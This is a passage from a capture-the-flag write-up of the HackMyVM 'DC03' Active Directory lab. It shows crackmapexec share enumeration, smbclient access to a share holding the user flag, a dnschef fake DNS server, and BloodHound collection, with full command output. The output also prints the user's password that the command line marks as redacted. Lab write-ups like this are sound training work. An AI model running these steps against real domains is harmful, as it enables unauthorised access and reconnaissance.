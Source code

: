 ```bash
Stopped: Sat Oct 19 16:49:38 2024
```

Now that we have a valid AD user, we can enumerate SMB shares where we will find the user flag.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/DC03]
└─$ crackmapexec smb DC01.SOUPEDECODE.LOCAL -u xkate578 -p <REDACTED> --shares
SMB         SOUPEDECODE.LOCAL 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         SOUPEDECODE.LOCAL 445    DC01             [+] SOUPEDECODE.LOCAL\xkate578:jesuschrist 
SMB         SOUPEDECODE.LOCAL 445    DC01             [+] Enumerated shares
SMB         SOUPEDECODE.LOCAL 445    DC01             Share           Permissions     Remark
SMB         SOUPEDECODE.LOCAL 445    DC01             -----           -----------     ------
SMB         SOUPEDECODE.LOCAL 445    DC01             ADMIN$                          Remote Admin
SMB         SOUPEDECODE.LOCAL 445    DC01             C$                              Default share
SMB         SOUPEDECODE.LOCAL 445    DC01             IPC$            READ            Remote IPC
SMB         SOUPEDECODE.LOCAL 445    DC01             NETLOGON        READ            Logon server share 
SMB         SOUPEDECODE.LOCAL 445    DC01             share           READ,WRITE      
SMB         SOUPEDECODE.LOCAL 445    DC01             SYSVOL          READ            Logon server share 

┌──(pentester㉿kali)-[~/Desktop/HackMyVM/DC03]
└─$ smbclient -U 'xkate578' '//DC01.SOUPEDECODE.LOCAL/share'
Password for [WORKGROUP\xkate578]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sun Oct 20 00:52:09 2024
  ..                                  D        0  Thu Aug  1 06:38:08 2024
  desktop.ini                       AHS      282  Thu Aug  1 06:38:08 2024
  user.txt                            A       70  Thu Aug  1 06:39:25 2024

                12942591 blocks of size 4096. 10819634 blocks available
```

## Post Exploitation

We can use this user's credentials to enumerate the active directory environment using Bloodhound. Due to some issues during name resolution, we first set a fake DNS server on our localhost using `dnschef` and used that DNS server's IP as the name server IP while running Bloodhound.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/DC03/Misc File]
└─$ dnschef --fakeip 10.0.2.33&
[1] 37629

┌──(pentester㉿kali)-[~/Desktop/HackMyVM/DC03/Misc File]
└─$           _                _          __  
<SNIP>
(01:14:43) [*] DNSChef started on interface: 127.0.0.1
(01:14:43) [*] Using the following nameservers: 8.8.8.8
(01:14:43) [*] Cooking all A replies to point to 10.0.2.33

┌──(pentester㉿kali)-[~/Desktop/HackMyVM/DC03/Misc File]
└─$ bloodhound-python  -u xkate578 -p <REDACTED> -ns 127.0.0.1 -d SOUPEDECODE.LOCAL  -dc DC01.SOUPEDECODE.LOCAL --zip
WARNING: Could not find a global catalog server, assuming the primary DC has this role
If this gives errors, either specify a hostname with -gc or disable gc resolution with --disable-autogc
INFO: Getting TGT for user
<SNIP>
INFO: Done in 00M 30S
INFO: Compressing output into 20241020011449_bloodhound.zip
```
